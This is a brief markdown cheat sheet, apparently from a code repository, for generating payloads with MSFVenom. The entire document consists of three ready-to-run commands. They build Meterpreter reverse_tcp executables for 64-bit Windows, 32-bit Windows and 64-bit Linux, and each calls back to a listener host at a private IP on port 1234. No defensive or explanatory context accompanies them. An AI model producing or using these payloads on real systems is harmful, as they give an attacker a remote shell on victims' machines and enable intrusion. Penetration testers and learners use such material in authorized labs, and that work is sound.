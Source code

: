 # Generating Payloads using MSFVenom

#### PAYLOAD FOR 64BIT WINDOWS TARGET
```
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.143 LPORT=1234 -f exe > Win64.exe
```

#### PAYLOAD FOR 32BIT WINDOWS TARGET
```
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.31.143 LPORT=1234 -f exe > Win32.exe
```

#### PAYLOAD FOR 64BIT LINUX TARGET
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.31.143 LPORT=1234 -f elf > linuxpload64
```